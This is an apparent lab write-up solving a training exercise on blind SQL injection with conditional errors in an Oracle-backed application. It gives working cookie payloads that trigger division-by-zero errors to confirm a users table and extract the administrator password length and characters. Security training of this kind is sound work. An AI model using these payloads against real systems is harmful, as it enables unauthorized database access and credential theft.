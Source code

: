 # Lab: Blind SQL injection with conditional errors
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Conditional errors
In the lab before we had a message that was shown if the injected statement was true and not if it was false. Now we don't have such an indicator, but the applaction shows an error message caused by the query. So we can craft the injected statement in that way, that it runs into an error if the condition is true, but not if the condition is false.

The SQL query of the application probably looks again like the following:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '2Dea5evkp3l2nR4B'
```

From the hint we know that the database is an Oracle DB.

For verifying, that there is an error message from the database we inject the content `TrackingId=2Dea5evkp3l2nR4B'` and it shows an _Internal Server Error_. If we inject a double tick at the end (`TrackingId=2Dea5evkp3l2nR4B''`) there is no error anymore.

To verify, that these are errors created by SQL we can use
```
TrackingId=2Dea5evkp3l2nR4B'||(SELECT NULL)||'
```
to provoke an error and
```
TrackingId=2Dea5evkp3l2nR4B'||(SELECT NULL FROM dual)||'
```
to confirm, that the error came from the bad syntax. This also approves, that the application uses an Oracle database, because the first query is a valid MySQL statement. Oracle needs always a `FROM` part.

To ensure an internal SQL error, we can just adress an invalid table:
```
2Dea5evkp3l2nR4B'||(SELECT NULL FROM test)||'
```
This shows also an error and tells us that the query is processed by the back-end.

## Solution
At this point we can abuse the error message as discussed before.

### Information gathering
#### Users table
First we have to confirm, that there is a table called 'users'. To do so we can adjust the statement from before to the following:
```
TrackingId=2Dea5evkp3l2nR4B'||(SELECT NULL FROM users WHERE ROWNUM=1)||'
```
_Keep in mind, that `TrackingId=2Dea5evkp3l2nR4B'||(SELECT NULL FROM users)||'` would also cause an error. For that we are using the `WHERE ROWNUM=1` part._

#### Administrator user
The next step is to confirm, that there is an user called 'administrator' in that table. For that we can use the following query:
```
TrackingId=2Dea5evkp3l2nR4B'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```

This query will create an error and confirms that the user exists. The reason for this is that the part after the `FROM` is executed before `SELECT` in SQL. If this part delivers some data the `SELECT`, and with that the `CASE`, is executed. `(1=1)` is always true, so the the `TO_CHAR(1/0)` will be executed and the query runs into an error. If the `FROM` part doesn't give any data back, for example if the user 'administrator' doesn't exist, the `SELECT` part won't be executed and the query creates no error.

#### Password length
Further on we have to determine the length of the password of the administrator user. For that we can use the followoing statement and increase the length in the condition. If the condition is true, the application will throw an error.
```
TrackingId=2Dea5evkp3l2nR4B'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Increasing the number, will show that the password is 20 characters long. The site gives no error for that value.

_In the lab before ([Blind SQL injection with conditional responses](Blind_SQL_injection_with_conditional_responses.md)) we used Burp Intruder to automate this task. Take a look in the writeup to se the configuration for Intruder._

#### Password character
At last we have to brute force the characters of the password. For that we slightly adjust the query from before. For every character we have to test our set ([0-9] and [a-z]).

We check the first character of the password with
```
TrackingId=2Dea5evkp3l2nR4B'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

and the second with
```
TrackingId=2Dea5evkp3l2nR4B'||(SELECT CASE WHEN SUBSTR(password,2,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
and so on.

If we got a hit, the application throws an error.

Iterating through this will give us the password: `tooxx10lyarn3etz8y7l`

_In the lab before ([Blind SQL injection with conditional responses](Blind_SQL_injection_with_conditional_responses.md)) we used Burp Intruder to automate this task. Take a look in the writeup to se the configuration for Intruder._


If we login with the user 'administrator' and the found password, the lab is solved!
